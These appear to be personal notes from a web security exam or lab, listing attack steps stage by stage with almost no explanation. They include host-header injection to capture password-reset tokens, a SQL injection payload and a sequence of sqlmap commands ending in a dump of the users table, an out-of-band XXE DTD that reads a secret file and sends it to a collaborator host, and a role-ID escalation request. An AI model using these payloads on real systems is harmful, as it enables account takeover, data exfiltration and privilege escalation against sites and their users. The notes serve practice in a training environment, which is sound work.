 # extra 2  

## 1 - 1  

>Forgot password?

>host headers  

```
X-Host: EXPLOIT.com
X-Forwarded-Server: EXPLOIT.com
X-Forwarded-For: EXPLOIT.com
```  

>log  

```
/forgot_password?temp-forgot-password-token=YESYESYESYESYES
```

## 1 - 2  

>Advanced search

>SQL: Injection with SQLMAP exploit 

```
/filteredsearch?lookup='+UNION+SELECT+'abc'+--&organizeby=DATE&journalist=
```



>SQLMAP  
 
```
https://TARGET.NET/filteredsearch?lookup=x&organizeby=DATE&journalist=x
```  

```
sqlmap -v -u 'https://TARGET.NET/filteredsearch?lookup=x&organizeby=DATE&journalist=&cachebust=1656138093.57' -p "lookup" --batch --cookie="_lab=46%7cMCwCFDvhZu3NmSkocq341QWncV743o7oAhRVy%2fBaZXa0G7T6taADrF%2foqS%2fSemjTgckosrUOYPxEqcygpvHC2AHJ0Zg6KirfotNJLfF96pLnZGYaMu9XcednYxBwRrWf9w%2b7uOJ90fvpY4AT5dK6OnDFj9SOtZ1364YhnCOB11mk0qY%3d; session=6lgfjR7dN8rxS1W1zEAPFipLLdI7FB5G" --random-agent --level=2 --risk=2
```  

```
sqlmap -v -u 'https://TARGET.NET/filteredsearch?lookup=x&organizeby=DATE&journalist=&cachebust=1656138093.57' -p "lookup" --batch --cookie="_lab=46%7cMCwCFDvhZu3NmSkocq341QWncV743o7oAhRVy%2fBaZXa0G7T6taADrF%2foqS%2fSemjTgckosrUOYPxEqcygpvHC2AHJ0Zg6KirfotNJLfF96pLnZGYaMu9XcednYxBwRrWf9w%2b7uOJ90fvpY4AT5dK6OnDFj9SOtZ1364YhnCOB11mk0qY%3d; session=6lgfjR7dN8rxS1W1zEAPFipLLdI7FB5G" --random-agent --level=2 --risk=2 --dbms=PostgreSQL
```  

```
sqlmap -v -u 'https://TARGET.NET/filteredsearch?lookup=x&organizeby=DATE&journalist=&cachebust=1656138093.57' -p "lookup" --batch --cookie="_lab=46%7cMCwCFDvhZu3NmSkocq341QWncV743o7oAhRVy%2fBaZXa0G7T6taADrF%2foqS%2fSemjTgckosrUOYPxEqcygpvHC2AHJ0Zg6KirfotNJLfF96pLnZGYaMu9XcednYxBwRrWf9w%2b7uOJ90fvpY4AT5dK6OnDFj9SOtZ1364YhnCOB11mk0qY%3d; session=6lgfjR7dN8rxS1W1zEAPFipLLdI7FB5G" --random-agent --level=2 --risk=2 --dbms=PostgreSQL --dbs
```  

```
sqlmap -v -u 'https://TARGET.NET/filteredsearch?lookup=x&organizeby=DATE&journalist=&cachebust=1656138093.57' -p "lookup" --batch --cookie="_lab=46%7cMCwCFDvhZu3NmSkocq341QWncV743o7oAhRVy%2fBaZXa0G7T6taADrF%2foqS%2fSemjTgckosrUOYPxEqcygpvHC2AHJ0Zg6KirfotNJLfF96pLnZGYaMu9XcednYxBwRrWf9w%2b7uOJ90fvpY4AT5dK6OnDFj9SOtZ1364YhnCOB11mk0qY%3d; session=6lgfjR7dN8rxS1W1zEAPFipLLdI7FB5G" --random-agent --level=2 --risk=2 --dbms=PostgreSQL -D public --tables
```  

```
sqlmap -v -u 'https://TARGET.NET/filteredsearch?lookup=x&organizeby=DATE&journalist=&cachebust=1656138093.57' -p "lookup" --batch --cookie="_lab=46%7cMCwCFDvhZu3NmSkocq341QWncV743o7oAhRVy%2fBaZXa0G7T6taADrF%2foqS%2fSemjTgckosrUOYPxEqcygpvHC2AHJ0Zg6KirfotNJLfF96pLnZGYaMu9XcednYxBwRrWf9w%2b7uOJ90fvpY4AT5dK6OnDFj9SOtZ1364YhnCOB11mk0qY%3d; session=6lgfjR7dN8rxS1W1zEAPFipLLdI7FB5G" --random-agent --level=2 --risk=2 --dbms=PostgreSQL -D public -T users --dump
```  

## 1 - 3  

>XXE add users  

>SERVER exploit.dtd  
  
```
<!ENTITY % file SYSTEM "file:///home/carlos/secret">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://COLLABORATOR.com/?x=%file;'>">
%eval;
%exfil;
```  

>XML File Upload user_import  


```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE users [<!ENTITY % xxe SYSTEM "https://exploit.net/exploit.dtd"> %xxe;]>
<users>
    <user>
        <username>3421xxe3421</username>
        <email>14@23xxe</email>
    </user>    
</users>
```  

>Internal Server Error - XML parsing error - Ignore message response and check the Burp Collaboration Server HTTP
					
## 2 - 1  

>Forgot password?  

```
X-Forwarded-Host: COLLABORATOR.com
X-Host: COLLABORATOR.com
X-Forwarded-Server: COLLABORATOR.com
```  

>EXPLOIt SERVER LOGS  

```
/new_password?temp-forgot-password-token=YESYESYESYESYESYESYESYESYEYS
```


## 2 - 2  

>update email  

>ACCESS CONTROL  roleID: 42  

>INTRUDER run through roleID value numbers

```
{
	"csrf":"YESYESYESYESYESYESYESYESYEYS",
	"email":"Carlos@EXAM.test",
	"roleid": 42
}
```  

## 2 -3  


>FILE Upload XML

>XML parsing error  

